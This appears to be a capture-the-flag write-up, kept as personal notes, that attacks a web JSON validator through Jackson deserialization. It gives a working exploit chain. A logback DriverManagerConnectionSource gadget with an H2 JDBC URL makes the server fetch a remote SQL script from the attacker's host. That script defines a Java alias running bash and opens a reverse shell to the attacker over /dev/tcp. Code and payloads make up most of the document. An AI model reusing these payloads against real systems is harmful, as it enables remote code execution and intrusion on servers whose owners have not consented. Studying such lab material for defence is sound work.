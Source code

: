 # Homepage
![[Pasted image 20211215011445.png]]

## Validator
### Display Error

* input: workformebaby
* Output: Validation failed: Unhandled **Java** exception: **com.fasterxml.jackson.core.JsonParseException**: Unrecognized token 'workformebaby': was expecting ('true', 'false' or 'null')

### Stack Overflow, confirm exploit
* input: \["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:"}\]
* Output: Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.JsonMappingException: Infinite recursion (StackOverflowError) (through reference chain: org.h2.engine.Database["mainSchema"]->
org.h2.schema.Schema["database"]->org.h2.engine.Database["mainSchema"]...[snip]...

### Make HTTP Connection + shell
Run a webserver, host inject.sql and make the below command

* input: \["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.21:8000/inject.sql'"}\]
* Output: HTTP Connection


## Reverse Shell
### Create file inject.sql
Content : 
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.21/9001 0>&1')

```


![[Pasted image 20211215013212.png]]